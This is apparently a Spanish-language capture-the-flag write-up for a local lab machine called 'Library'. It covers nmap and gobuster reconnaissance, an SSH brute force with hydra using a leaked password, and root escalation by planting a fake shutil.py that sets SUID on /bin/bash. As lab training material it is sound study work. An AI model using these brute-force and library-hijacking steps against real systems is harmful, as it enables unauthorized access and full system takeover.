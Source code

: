 - Tags: #Library 
---
[Maquina Library](https://mega.nz/file/hTdiWDQI#ghcFj2GLskvbvfIpn4OppMvu-AX29pUvbFqYy1927IA) ==> Enlace de descarga al laboratorio.
```bash
7z x library.zip # Descomprimimos el archivo 
sudo bash auto_deploy.sh library.tar # Desplegamos el laboratoriio
```

#### Fase Reconocimiento:
```bash
172.17.0.2 --> Direccion ip del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conexion con el target

wichSystem.py 172.17.0.2 # Determinando que estamos ante una maquina Linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos desubrimiento de puertos
extractPorts allPorts # Parseamos la informacion mas importante del primer escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la version que corren detras de estos puertos.
```

**( 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0) )** ==> Detectamos un servicio ssh expuesto
**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** ==> Detectamos un servicio web expuesto y Por el **codeName** estamos ante una version de **ubuntuNoble**

#### Fase Reconocimiento Web:
```bash
whatweb http://172.17.0.2/ # Detectamos tecnologias que esta usando la web
http://172.17.0.2/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[Apache2 Ubuntu Default Page: It works]

nmap -p80 --script http-enum 172.17.0.2 # No detecta nada critico
```

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,html,php.back,back,txt,zip,tar,pdf # Detectamos potenciales archivos.
/index.php            (Status: 200) [Size: 26] # Auditaremos este
/index.html           (Status: 200) [Size: 10671]
```

**( JIFGHDS87GYDFIGD )** ==> En la web esta filtrado esto que parece ser una password. de un usuario el cual tendremos que intentar descubrir con un ataque de fuerza bruta
```bash
 hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD -t 4 -f ssh://172.17.0.2 # 
 [22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
``` 

#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh carlos@172.17.0.2
```

#### Fase Escalada Privilegios:
```bash
sudo -l
User carlos may run the following commands on bfb724958d7a: # Tenemos una via potencial de escalar privielgios.
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

```bash
export PATH=/opt:$PATH # Modificamos nuestro pad para poder secuestrar la libreria shutil que usa ese script.py al ejecutarse.
```

**shutil.py** ==> Crearemos un archivo igual que el nombre de la libreria para que sea buscado primero en: **( /opt )** y sea ejecutado aunque falle el script lograremos que se otroguen privilegios **SUID** a la bash.
```bash
import os;
os.system("chmod u+s /bin/bash")
```
---
```bash
sudo -u root /usr/bin/python3 /opt/script.py # Ejecutamos este archivo y nos muestra que esta mal pero hemos logrado cambiarle los pribilegios a la bash

ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash

/bin/bash -p # Ahora obtendremos una bash como root obteniendo control total sobre el sistema operativo.
```